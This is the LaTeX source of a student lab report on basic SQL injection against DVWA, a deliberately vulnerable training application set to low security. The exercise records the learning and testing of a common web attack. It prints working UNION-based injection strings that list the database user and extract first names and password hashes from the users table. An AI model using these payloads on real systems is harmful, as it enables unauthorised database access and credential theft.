\documentclass[a4paper,10pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
%opening
\title{Lab-report 6}
\author{Moritz Rupp}

\begin{document}

\maketitle

\begin{abstract}

\end{abstract}
\newpage
\section{Exercise 6.1 - Basic SQL Injections}
The goal is to trigger a basic sql injection.\\
SQL injection are possible if database queries are constructed based on user input. If we submit the right string, our inputs can execute sql commands, which can be used to read of the database. 

We start with a simple sql-injection to extract the list of usernames and password hashes. Hence we set the the DVWA security setting to low. \\
First we try around and list database users:\\
\begin{verbatim}
 %' or 0=0 union select null, user() #

\end{verbatim}

\begin{center}
 
\includegraphics[scale=0.4]{first.png}
\end{center}
If we slighty modify this command we should also gain the password hashes.
\begin{verbatim}
%' or 0=0 union select first_name, password from users#

or

1' or  '0' = '0' union select first_name, password from users#
#
\end{verbatim}

\begin{center}
 
\includegraphics[scale=0.5]{sec.png}
\end{center}
The key here is union. It is used to combine the result-set of two or more SELECT statements. This can be used to pass our bewished statements.
\end{document}
